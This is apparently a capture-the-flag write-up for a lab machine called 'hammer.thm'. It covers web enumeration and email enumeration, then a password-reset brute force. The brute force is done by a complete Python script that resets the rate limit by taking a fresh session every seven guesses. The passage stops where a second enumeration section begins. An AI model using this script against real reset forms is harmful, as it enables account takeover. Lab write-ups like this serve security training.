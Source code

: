 
Authentication Bypass and RCE

# Enumeration 

## Nmap Scan

![](../../Pasted%20image%2020250826001827.png)
``` bash
sudo nmap -A -p 22,1337 -T4 hammer.thm -oN hammer.nmap 
```

![](../../Pasted%20image%2020250826002022.png)

## 1337 Web App Enumeration

``` bash
dirsearch -u http://hammer.thm:1337 -r -o endpoints.dirsearch 
```
Didn't find much other than the `/phpmyadmin` (now we now it is using php), some `/vendor` :
![](../../Pasted%20image%2020250826003623.png)
At the same time, visited the site manually and found some useful information on the source page

![](../../Pasted%20image%2020250826003009.png)
This indicates that possibly we need to use `hmr_` as a prefix in our enumeration.

Used the build-in prefix parameter in dirsearch: 
``` bash
dirsearch --help | grep prefix
    --prefixes=PREFIXES     Add custom prefixes to all wordlist entries
```
So, the command used was:
``` bash
dirsearch -u http://hammer.thm:1337 --prefixes=hmr_ -o prefixed.dirsearch
```
![](../../Pasted%20image%2020250826004513.png)Found `hmr_logs` directory, with directory listing and `errors.log` file:

![](../../Pasted%20image%2020250826005759.png)
Great, looks like some information:
- username enumeration: tester@hammer.thm
- possible directory discovery: `/restricted-area`, `/admin-login`, `/protected`, `/locked-down`
- System user leak: `hammmerthm` user from `/home/hammerthm/test.php`
-  Apparently Lock-down mechaniosm in place 


# Overview of the login page
Login page does not provide username enumeration since incorrect login cause the display of a generic message.
![](../../Pasted%20image%2020250826011548.png)
Although, the Forgot Password, allows for valid email enumeration, since it displays an **"Invalid Email address"** if the email is not registered. 
Confirmed the valid email tester@hammer.thm from the previously acquired knowledge:

![](../../Pasted%20image%2020250826011653.png)
We are asked for the 4-digit code sent to the email and a 180 seconds countdown starts...
Tried a random number to submit and get a look of the request and response in Burp:

![](../../Pasted%20image%2020250826015807.png)

Here, I got the information that during the 180 second, I have a 6 tries before hitting the rate limit. Repeated the request to confirm the restriction and it indeed works:
![](../../Pasted%20image%2020250826234429.png)

So, at this point I am thinking, **Is the rate limiting associated to the Session?** 
It was the only logical option for this functionality to be vulnerable to brute-forcing otherwise I needed to be lucky to catch the correct 4 digit code in only 6 tries before getting blocked.

## Confirming the idea 

First, I checked if the seconds parameter from the request affects the results or availability of the functionality, turns out it doesn't which is a big point for my brute-force idea.  
Then, prepared a second repeater tab, with no cookie value to request for a new session to try and see if the rate limit header value starts from 6, ignoring a previously sent tentative:

![](../../Pasted%20image%2020250827001050.png)
Got blocked with the original session. 

![](../../Pasted%20image%2020250827001246.png)
Got a new session cookie to use.

![](../../Pasted%20image%2020250827001436.png)
Sent two just to confirm xd. The rate limiting is reset to 8 tries using a new session. This means, it is possible to bypass the rate limiting mechanism creating a new session for each 7 requests and try possible 4-digit codes in the 180 seconds interval (each session).

# Brute Forcing Reset Code

``` python
import requests

URL = "http://hammer.thm:1337/reset_password.php"
EMAIL = "tester@hammer.thm"

def get_new_session():
    # Request a new PHPSESSID by sending the email reset form.
    s = requests.Session()
    data = {"email": EMAIL}
    r = s.post(URL, data=data)
    if "PHPSESSID" not in s.cookies:
        raise Exception("Failed to get PHPSESSID")
    return s

def try_code(session, code):
    """Submit a 4-digit code using the given session."""
    payload = {
        "recovery_code": str(code).zfill(4),
        "s": "174"   # static value from your requests
    }
    r = session.post(URL, data=payload)
    return r

def is_success(response, baseline_length):
    """Decide if response indicates success (different length/contents)."""
    return len(response.text) != baseline_length

# ---------------- MAIN -----------------
print("[*] Getting baseline response...")
baseline_session = get_new_session()
baseline_resp = try_code(baseline_session, 9999)  # guaranteed wrong
baseline_length = len(baseline_resp.text)

print(f"[*] Baseline response length: {baseline_length}")
print("[*] Starting brute-force...")

attempts = 0

for code in range(0, 10000):
    if attempts % 7 == 0:  # refresh session every 7 tries
        session = get_new_session()

    resp = try_code(session, code)
    attempts += 1

    if is_success(resp, baseline_length):
        print(f"\n[+] SUCCESS! Code: {code:04d}")
        print("[+] Session cookie:", session.cookies.get_dict())
       # print("[+] Response snippet:\n", resp.text[:300])
        break


```

How It Works
```
1. **Baseline**: gets the length of a known invalid response (e.g., `9999`).
2. **Loop 0000–9999**:
    - Every 7 attempts → requests a new session (to reset rate limit).
    - Submits the code with that session.
3. **Detect success**: compares response length vs baseline.
    - If it’s different → likely success 
4. **Stops immediately** and prints code + session cookie.
```

Executed it and got the session that found the correct code:

![](../../Pasted%20image%2020250827011527.png)
Used that session value to update the cookie on the opened browser and refresh the reset password page:
![](../../Pasted%20image%2020250827011614.png)
Changed it to `test123` and confirmed. Then used it to login and got the first flag: 
![](../../Pasted%20image%2020250827011913.png)


# Enumeration  -  Part II :)

